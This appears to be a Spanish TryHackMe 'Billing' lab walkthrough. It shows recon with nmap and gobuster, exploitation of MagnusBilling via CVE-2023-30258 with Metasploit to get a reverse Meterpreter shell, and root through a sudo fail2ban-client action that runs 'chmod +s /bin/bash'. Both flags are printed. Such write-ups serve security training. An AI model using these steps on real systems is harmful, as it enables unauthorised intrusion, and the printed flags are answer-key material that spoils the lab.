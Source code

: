 # Billing

![image.png](./imagenes/Billing/image.png)

Maquinas a utilizar Kali Linux y https://tryhackme.com/room/billing

- IP de la Maquina victima: 10.10.130.193
    
    ![image.png](./imagenes/Billing/image%201.png)
    
- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    ![image.png](./imagenes/Billing/image%202.png)
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

---

- Hacemos un nmap de la maquina victima
    
    ```bash
    sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.130.193
    ```
    
    ![image.png](./imagenes/Billing/image%203.png)
    

- Miramos lo que corre por el puerto 80
    
    ![image.png](./imagenes/Billing/image%204.png)
    
    Vemos que lanza un software llamado `MagnusBilling`
    
    <aside>
    💡
    
    MagnusBilling es un software de telecomunicaciones que funciona como softswitch y sistema de facturación para proveedores de servicios VoIP (telefonía IP). Es un sistema open source que permite gestionar y facturar llamadas telefónicas a fijos y móviles, realizar llamadas masivas, gestionar tarjetas telefónicas, DIDs (números de teléfono virtuales), envío de SMS, y cuenta con módulos para tienda de llamadas, devolución de llamada (callback), sistemas IVR (respuesta de voz interactiva), llamadas en espera, entre otros.
    
    </aside>
    
    ![image.png](./imagenes/Billing/image%205.png)
    
    Un formulario de login , pero no tenemos ninguna credencial todavía.
    
- Usamos Gobuster para hacer Fuzzing web.
    
    ```bash
    gobuster dir -u http://10.10.130.193/mbilling/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,md -t 50
    ```
    
    ![image.png](./imagenes/Billing/image%206.png)
    

- Miramos el contenido del archivo Readme.md
    
    ![image.png](./imagenes/Billing/image%207.png)
    
    Nos muestra la versión del software que utiliza la web `MagnusBilling version 7.x.x` 
    
- Haciendo una búsqueda en internet vemos que esta versión esta asociada a un CVE: `**CVE-2023-30258**`
    
    ![image.png](./imagenes/Billing/image%208.png)
    

- Vamos a probar si tenemos algún exploit en metasploit para esta vulnerabilidad. Para ello abrimos Metasploit desde el menú.
    
    
    `search CVE-2023-30258`
    
    ![image.png](./imagenes/Billing/image%209.png)
    
    - Escogemos la opción 0 y listamos opciones modulo.
        
        `use 0`
        
        `show options`
        
        ![image.png](./imagenes/Billing/image%2010.png)
        
    
    - Completamos las opciones que nos hagan faltan
        
        `set RHOSTS 10.10.130.193`
        
        `set SRVHOST 10.21.203.172`
        
        `set LHOST 10.21.203.172`
        
        ![image.png](./imagenes/Billing/image%2011.png)
        
    
    - Lanzamos el exploit
        
        `run`
        
        ![image.png](./imagenes/Billing/image%2012.png)
        
        Conseguimos una sesión de metrepreter.
        
    - Lanzamos una shell
        
        `shell`
        
        ![image.png](./imagenes/Billing/image%2013.png)
        
    
    - Nos movemos hasta la carpeta **/home/magnus** y listamos
        
        `ls`
        
        ![image.png](./imagenes/Billing/image%2014.png)
        
    - Miramos el contenido del archivo user.txt
        
        `cat user.txt`
        
        ![image.png](./imagenes/Billing/image%2015.png)
        
        Ya tenemos la primera Flag: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`
        

---

- Vamos a intentar escalar privilegios
    - Probamos con sudo -l
        
        `sudo -l`
        
        ![image.png](./imagenes/Billing/image%2016.png)
        
        Vemos que el binario fail2ban-client se puede ejecutar como root sin contraseña
        
        Buscando en internet “fail2ban-client exploit” he encontrado la web: [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/](./imagenes/Billing/https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/) que nos muestra el siguiente exploit.
        
        ![image.png](./imagenes/Billing/image%2017.png)
        
    - Vamos a poner en practica el exploit que nos muestra.
        
        `sudo /usr/bin/fail2ban-client status`
        
        Esto nos mostrara un listado el estado actual del servicio Fail2ban en tu sistema.
        
        escogemos uno. En mi caso **`ast-cli-attc`**
        
        `sudo /usr/bin/fail2ban-client get **ast-cli-attck** actions`
        
        `sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
        sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash”`
        
        `sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5`
        
        `/bin/bash -p`
        
        Explicación:

        **1. `sudo /usr/bin/fail2ban-client status`**

        **Muestra el estado actual** de Fail2ban: ves qué "jails" (reglas antisabotaje) están activas y estadísticas generales.

        **2. `sudo /usr/bin/fail2ban-client get ast-cli-attck actions`**

        **Consulta qué acciones están configuradas** en el jail llamado **`ast-cli-attck`** (por ejemplo, bloquear IP).

        **3. `sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil`**

        **Agrega** una acción con nombre “evil” al jail **`ast-cli-attck`**.

        **4. `sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash"`**

        **Configura qué hace** la acción “evil” al banear: aquí haría el comando **`chmod +s /bin/bash`** (le da permisos especiales al ejecutable).

        **5. `sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5`**

        **Banea manualmente** la IP 1.2.3.5 usando el jail **`ast-cli-attck`**.

        **6. `/bin/bash -p`**

        Ejecuta Bash **manteniendo privilegios** si tienes permisos elevados . 

        
        ![image.png](./imagenes/Billing/image%2018.png)
        
    - Miramos el ID de nuestro usuario
        
        `id`
        
        ![image.png](./imagenes/Billing/image%2019.png)
        
        Vemos que tenemos privilegios de root
        
- Nos movemos ala carpeta root
    
    ![image.png](./imagenes/Billing/image%2020.png)
    
    Vemos que tenemos un archivo root.txt. vamos a ver lo que contiene.
    
    `cat root.txt`
    
    ![image.png](./imagenes/Billing/image%2021.png)
    
    Nos encontramos ante la segunda Flag: `THM{33ad5b530e71a172648f424ec23fae60}`